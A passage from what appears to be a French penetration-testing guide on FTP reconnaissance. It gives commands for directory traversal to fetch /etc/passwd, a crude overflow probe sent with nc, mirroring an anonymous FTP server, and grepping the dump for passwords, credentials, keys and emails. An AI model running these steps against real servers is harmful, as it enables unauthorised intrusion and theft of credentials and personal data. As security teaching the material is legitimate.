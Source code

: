 ### Tests de Sécurité Spécifiques
```bash
# 1. Directory traversal
ftp> cd ../../../etc
ftp> get passwd

# 2. PASV mode issues
ftp> passive        # Activer mode passif
ftp> ls            # Tester comportement

# 3. Buffer overflow tests (avec prudence)
# Connexion avec username très long
python -c "print 'A' * 1000" | nc target.com 21
```

## 📂 Phase 5 : Exploration de Contenu

### Recherche de Fichiers Sensibles
```bash
# 1. Une fois connecté FTP
ftp> ls -la
ftp> find . -name "*.txt" -type f    # Si supporté
ftp> find . -name "password*"

# 2. Patterns de fichiers à chercher
*.txt, *.doc, *.pdf, *.xls          # Documents
*.sql, *.db, *.backup               # Bases de données
*.config, *.conf, *.ini             # Configuration
*.log                               # Logs
*.key, *.pem, *.cert               # Certificats/clés

# 3. Téléchargement systématique
#!/bin/bash
# Script pour download automatique
lftp -c "mirror --verbose ftp://anonymous@target.com/ ./ftp_dump/"
```

### Analyse du Contenu Téléchargé
```bash
# 1. Recherche dans les fichiers
grep -r "password" ftp_dump/
grep -r "admin" ftp_dump/
grep -r -i "credential" ftp_dump/

# 2. Recherche de patterns sensibles
grep -r -E "[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}" ftp_dump/    # IPs
grep -r -E "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}" ftp_dump/   # Emails

# 3. Analyse des métadonnées
exiftool ftp_dump/*.pdf
exiftool ftp_dump/*.doc
strings ftp_dump/binary_files
```
